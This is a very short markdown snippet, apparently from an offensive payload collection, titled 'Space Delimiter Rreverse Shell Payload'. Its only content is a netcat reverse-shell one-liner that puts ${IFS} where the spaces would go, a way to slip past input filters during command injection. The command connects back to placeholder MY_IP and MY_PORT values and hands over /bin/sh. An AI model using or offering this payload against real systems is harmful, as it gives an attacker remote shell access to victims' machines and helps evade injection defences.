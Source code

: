 # Space Delimiter Rreverse Shell Payload

### Payload

    nc${IFS}MY_IP${IFS}MY_PORT${IFS}-e${IFS}/bin/sh
